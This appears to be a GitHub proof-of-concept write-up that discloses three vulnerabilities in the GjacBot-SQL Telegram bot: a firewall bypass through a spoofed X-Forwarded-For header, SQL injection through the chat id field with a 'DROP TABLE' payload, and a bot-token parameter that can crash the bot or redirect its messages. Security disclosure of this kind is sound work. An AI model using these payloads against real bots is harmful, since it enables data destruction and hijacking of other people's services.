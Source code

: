 # Proof of Concept for GjacBot-SQL

In this paper we will discuss about the main security vulnerabilities found in [GjacBot-SQL](https://github.com/GiacomoDevIT/GjacBot-SQL/).
(Update at 07/28/2020)

## Main vulnerabilities

### 1. XFF bypass in [waf.php](https://github.com/GiacomoDevIT/GjacBot-SQL/blob/master/waf.php)

One of the biggest issues that we found during our review is this quite easy bypassable Firewall:
you only need to change the ```X-Forwarded-For``` Header value in the HTTP-Request to one of the accepted IP addresses in order to bypass this firewall.
```
GET /bot/bot.php?api=[] HTTP/1.1
Host: localhost:80
X-Forwarded-For: 149.154.160.0
Content-Type: application/json

-JSON UPDATE BODY-
```

### 2. SQL Injection in [funzioni.php](https://github.com/GiacomoDevIT/GjacBot-SQL/blob/master/funzioni.php)

Another very big issue found in this project is the multitude of potential SQL Injections found:
whenever ```$chat_id``` is used, there is a possible SQLi, due to the fact that it's always possible to change it in the fake request body, allowing us to drop tables, overwrite data and so on.
``` JSON
{
  "update_id": 143970686,
  "message": {
    "message_id": 235833,
    "from": {
      "id": "105; DROP TABLE bot;",
      "is_bot": false,
      "first_name": "Lorenzo",
      "username": "pwnedbyrelooandwilkenfeld ':D'",
      "language_code": "it"
    },
    "date": 1595933493,
    "text": "/start"
  }
}
```

### 3. Deadly Get Param Check in [bot.php](https://github.com/GiacomoDevIT/GjacBot-SQL/blob/master/bot.php)

Although its shortness, this file is full of distructive bugs and vulns:

The first ```if``` statement checks if the Telegram Bot API Token is sent and, if present, it's used as the bot token. This bug leads to two different options:

- Pass an empty token, which will crash the bot;
- Pass a malicious token, in order to redirect all the messages to a different bot (making the original one useless).

## Authors

You can find us on GitHub:

- [@reloonfire](https://www.github.com/reloonfire)
- [@Wilkenfeld](https://www.github.com/Wilkenfeld)

Or Twitter:

- [@reloonfireit](https://www.twitter.com/reloonfireit)
- [@Wilkenfeld](https://www.twitter.com/rpomiato)
